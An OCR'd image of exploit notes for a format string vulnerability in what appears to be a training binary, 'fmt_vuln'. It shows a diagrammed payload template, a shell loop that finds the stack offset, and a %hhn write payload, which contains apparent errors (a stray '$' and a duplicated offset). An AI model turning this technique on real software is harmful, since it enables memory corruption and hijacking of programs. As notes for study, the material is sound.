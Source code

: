 
Generic format string
                              need four total formats two-pair
    addr2   addr4            formats to write a four-byte address
     /\      /\   .-------------------------------'---------------------.
    |  |    |  | /                                                       \
AAAABBBBCCCCDDDD%1$008x.%1$00x.%1$008x.%1$00x.%1$008x.%1$00x.%1$008x.%1$00x
|  |    |  |    \            /           \
 \/      \/      '-----.----'             '--- the index will change based on alignment and
addr1   addr3         |                        00x will be replaced by hhn
                      |
                   one format to adjust number of output bytes in format string
                   and one format to be replaced by hhn to do the writing


Use this to find i such that it gives us the stack offset of the start of the format string
    0x41 == 'A'
for i in `seq 1 1 200`;  do echo -n "$i "; ./fmt_vuln AAAABBBBCCCCDDDD%1\$008x.%$i\$00x.%1\$008x.%$i\$00x.%1\$008x.%$i\$00x.%1\$008x.%$i\$00x | grep Wrong ; done | grep 41

say i = 120 then we have
AAAABBBBCCCCDDDD%1\$008x.%$120\$hhn.%1\$008x.%$121\$hhn.%1\$008x.%$123\$hhn.%1\$008x.%$123\$hhn
where the 008 needs to be replaced by however big we want the offset to be